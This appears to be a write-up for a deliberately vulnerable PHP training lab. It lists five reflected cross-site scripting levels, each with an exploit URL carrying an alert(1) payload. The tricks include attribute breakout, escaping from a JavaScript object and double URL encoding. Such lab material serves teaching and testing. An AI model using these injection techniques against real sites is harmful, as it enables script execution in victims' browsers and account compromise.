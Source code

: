 ## Level 1

**Vulnerability:** Reflected XSS (Cross Site Scripting)

**Exploit :** `/Vulnerable_code/PHP/XSS/level_1.php?username=<script>alert(1)</script>`

**Impact:** Execute arbitrary Javascript code on Web Browser.


## Level 2

**Vulnerability:** Reflected XSS (Cross Site Scripting)

**Exploit :** `/Vulnerable_code/PHP/XSS/level_2.php?username=eee' onclick='javascript:alert(1)//`

**Impact:** Execute arbitrary Javascript code on Web Browser when clicking on the link.



## Level 3

**Vulnerability:** Reflected XSS (Cross Site Scripting)

**Exploit :** `/Vulnerable_code/PHP/XSS/level_3.html?default=<script>alert(1)</script>`

**Impact:** Execute arbitrary Javascript code on Web Browser.

## Level 4

**Vulnerability:** Reflected XSS (Cross Site Scripting)

**Exploit :** `/Vulnerable_code/PHP/XSS/level_4.php?search=e"});alert(1);var a=({"ee":"ee`

**Impact:** Execute arbitrary Javascript code on Web Browser.


## Level 5

**Vulnerability:** Reflected XSS (Cross Site Scripting)

**Exploit :** `/Vulnerable_code/PHP/XSS/level_5.php?search=ee%253C/script%253E%253Cscript%253Ealert(1)%3b%253C/script%253E`

**Impact:** Execute arbitrary Javascript code on Web Browser.


